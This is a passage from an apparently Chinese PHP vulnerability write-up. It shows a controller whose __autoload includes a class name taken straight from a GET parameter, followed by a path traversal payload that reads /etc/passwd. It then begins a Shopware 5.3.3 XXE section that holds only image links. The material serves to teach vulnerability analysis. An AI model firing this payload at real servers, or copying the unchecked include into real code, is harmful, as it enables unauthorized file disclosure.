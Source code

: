 - code 

```php
function __autoload($className) { //自动加载
  include $className;
}

$controllerName = $_GET['c'];
$data = $_GET['d'];  //获取get的c与d作为类名与参数

if (class_exists($controllerName)) {
  $controller = new $controllerName($data['t'], $data['v']);
  $controller->render();
} else {
  echo 'There is no page with this name';
}

class HomeController {
  private $template;
  private $variables;

  public function __construct($template, $variables) {
    $this->template = $template;
    $this->variables = $variables;
  }

  public function render() {
    if ($this->variables['new']) {
      echo 'controller rendering new response';
    } else {
      echo 'controller rendering old response';
    }
  }
}
```

**如果存在如果程序存在 __autoload函数，class_exists函数就会自动调用方法**

- payload

```
/?c=../../../../etc/passwd
```

###  Shopware 5.3.3 （XXE）

- 环境搭建

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200310141611.png)

#### 代码分析

- 漏洞触发点

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200310142234.png)
